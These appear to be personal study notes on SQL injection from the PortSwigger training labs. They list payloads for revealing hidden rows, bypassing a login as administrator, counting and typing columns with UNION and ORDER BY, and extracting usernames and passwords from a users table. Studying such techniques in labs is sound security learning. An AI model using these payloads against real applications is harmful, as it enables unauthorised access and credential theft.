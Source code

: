 SQL INJECTION - Portswigger Notes
-----------------



#### 1. To find hidden data

```
' OR 1=1--
```



#### 2. Login bypass

```
administrator'--
```





## Using UNION

#### 1. To find no. of cols:

```
' UNION select NULL,NULL,NULL--
```

no.of NULL's is no. of cols ->200 response



```
  ' ORDER BY 1--
```

no. determines cols. -> if shown internal error, it' correct value.





#### 2. To identify datatype of column.

```
' UNION select NULL, 'a', NULL 
```

 i) if error its not string  

ii) else its string  

iii) can be analysed by,

     `' order by 1--`





#### 3. Retrieving data from other table

need to retrieve username and password from users table.

```
'UNION select username, password from users--
```
























